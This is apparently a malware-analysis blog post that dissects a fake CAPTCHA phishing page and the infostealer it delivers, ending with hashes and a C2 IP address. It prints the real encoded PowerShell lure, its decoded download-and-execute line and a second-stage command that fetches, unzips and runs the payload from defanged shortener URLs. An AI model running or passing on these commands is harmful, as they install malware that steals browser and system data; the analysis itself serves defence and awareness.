 ```yaml
---
title: CAPTCHA This!
date: 2025-05-14
draft: false
author: Kyd1ct
description: How a failed attempt at fake CAPTCHA phishing saved the day.
---
```



In this article, we’ll break down how this failed phishing attempt occurred and what would have happened if it succeeded.


## Discovery
I kept seeing articles about the phishing technique that utilises fake CAPTCHA pages. I wanted to know if I could randomly come across one of them in the wild, so I booted up my FlareVM and started browsing. I went to various websites, including travel agencies, social media, etc. (of course, without logging anywhere or inputting credentials), without AdBlock. I had planned a trip to visit a friend, so I thought, "Why not, I could check bus prices". Lo and behold, a Google ad popped up when I attempted to open one of the websites, and it was a fake CAPTCHA phishing page, impersonating a Cloudflare page.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/fakePage.jpg)

The page was later reported, and now it seems to have restricted access, showing a "Forbidden" error when trying to access it. The main domain, however, is still up and still shows `hellow` when accessed.

Let's examine the script, though:

```powershell
PowerShell.exe -ep bypass -enc KABJAG4AdgBvAGsAZQAtAHcAZQBiAHIAZQBxAHUAZQBzAHQAIAAtAFUAUgBJACAAJwBoAHQAdABwAHMAOgAvAC8AcwBoAG8AcgB0AGUAcgAuAG0AZQAvAFgATwBXAHkAVAAnACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApAC4AYwBvAG4AdABlAG4AdAAgAHwAaQBlAHgA -w 1powershell
```

So what can we identify from this?
- The command bypasses policy execution
- Runs a Base64 encoded command

We can only see red flags until we see `-w 1powershell`. This was one of the fake CAPTCHA phishing techniques that has become more frequent in the past year. However, that WindowStyle flag argument was invalid, resulting in an error without executing the script. The correct version would have been `-w 1`, which would have been an alternate version of `-WindowStyle Hidden`.

But what if the issue was not there and we accidentally ran the correct command?


## Analysis
### Static Analysis

Running the command with the correct WindowStyle argument still resulted in an error due to an incorrect User Agent. That's a second strike, so I decided to take a peek at what the encoded command does:

```powershell
(Invoke-webrequest -URI 'hxxps://shorter[.]me/XOWyT' -UseBasicParsing).content |iex
```

The command shows us that the script opens a shortened link. Checking that link in a sandbox, I identified that it contained the following command:

```powershell
Invoke-WebRequest -Uri "hxxps://bitly[.]cx/iddD" -OutFile "$env:TEMP\ComponentStyle.zip"; Expand-Archive -Path "$env:TEMP/ComponentStyle.zip" -DestinationPath "$env:TEMP"; & "$env:TEMP\crystall\Crysta_x86.exe"
```

So let's analyse it:
- It accesses another shortened URL
- Drops an archive in the TEMP directory and unzips it
- Executes the payload

I detonated the second stage payload, omitting the execution part of the script - the archive was secured, and it was time to create a snapshot.

The archive contained multiple files:
- A main executable
- Three DLL files
- a BXI and an [RC](https://learn.microsoft.com/en-us/windows/win32/menurc/about-resource-files) file.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/archiveFiles.png)

When checked in [VirusTotal](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details), we can see that vendors did not observe any clear indicators of malicious activity. We can also see that it was first submitted in 2011, and it is also signed and verified by Sonic Solutions, with the product being `DivX Download Manager Service`. While the binary is signed, it is likely vulnerable, making it possible to add malicious capabilities to it with the DLL files and the RC/BXI files.

Examining the strings does not provide much useful information, though it shows us that the file is capable of registry and process manipulation. We can also see the signature provided by VeriSign.

### Dynamic Analysis

Detonating the malware immediately shows a new process called MSBuild.exe, which appears to be associated with Flexera Software according to PEStudio. It also runs tcpvcon.exe, which is SysInternal's TCPView tool.

![First Processes.](/img/Malware/CAPTCHA_This/firstProcesses.png)

Eventually, it also opens multiple Chrome processes, however, no visible windows or tabs were opened.

![Chrome Processes.](/img/Malware/CAPTCHA_This/chromeProcesses.png)

The malicious software creates a copy of itself within `C:\ProgramData\PatchSystemCUS\`, while the `tcpvcon.exe` file was dropped in `C:\Users\<UserName>\AppData\Roaming\PatchSystemCUS`

![Persistence.](/img/Malware/CAPTCHA_This/malwareCopies.png)

![TCPView.](/img/Malware/CAPTCHA_This/tcpView.png)

When it comes to what the malware actually does, it appears to be a classic infostealer. The malicious software attempted to look for data files related to popular browsers like Google Chrome, Brave, Opera, CentBrowser, and many other region-specific browsers like Sputnik, etc.

![Chrome Data.](/img/Malware/CAPTCHA_This/chromeData.png)

![Browser Data.](/img/Malware/CAPTCHA_This/browserData.png)

It also targeted the TCPIP registries, enumerating hostname, DNSclient, and other keys in an attempt to steal details related to the machine's connections. It also enumerated all directories within the virtual machine.

![TCP Info.](/img/Malware/CAPTCHA_This/tcpInfo.png)

![File Enumeration.](/img/Malware/CAPTCHA_This/fileEnumeration.png)

Finally, I observed that the malicious sample went through the Uninstall registry keys, presumably to enumerate installed software and identify specific data "troves" or hindrances (such as security tools).

![Installed Software.](/img/Malware/CAPTCHA_This/installedSoftware.png)

The file communicated with an external IP address at regular intervals, likely serving as a command and control (C2) server for data exfiltration by the malicious binary.

![C2 Connection.](/img/Malware/CAPTCHA_This/c2Connection.png)

![C2 Connection Part 2.](/img/Malware/CAPTCHA_This/c2Connection2.png)

###  Conclusion
In summary, phishing pages like these are far from rare—they can appear anywhere in the wild, even through ads served by reputable networks. Any unsuspecting user could run the malicious command, risking data leaks or other serious consequences. We also can't depend on attackers making mistakes, which highlights just how essential cybersecurity awareness is for both individuals and organisations.

## IoCs  

### Hashes
- [deb5bd989c9fdd5fe7f78f00a1216eb0](https://www.virustotal.com/gui/file/2ec47cbe6d03e6bdcccc63c936d1c8310c261755ae5485295fecac4836d7e56a/details)
- [2d4fdba00b7f7b02408a8ea6c199037e](https://www.virustotal.com/gui/file/a8ba1e14249cdd9d806ef2d56bedd5fb09de920b6f78082d1af3634f4c136b90/details)
- [e43ec4f0aa69a344fcb8431e60195f0f](https://www.virustotal.com/gui/file/08f351477e71a4fa872a7b16455af9e2bd5dc38adef600a7310ce28acc94aad6/details)
- [ff254c1778aefe5af06889f1f999dee3](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details)

### IP Addresses
- [144.172.97[.]2](https://www.virustotal.com/gui/ip-address/144.172.97.2/detection)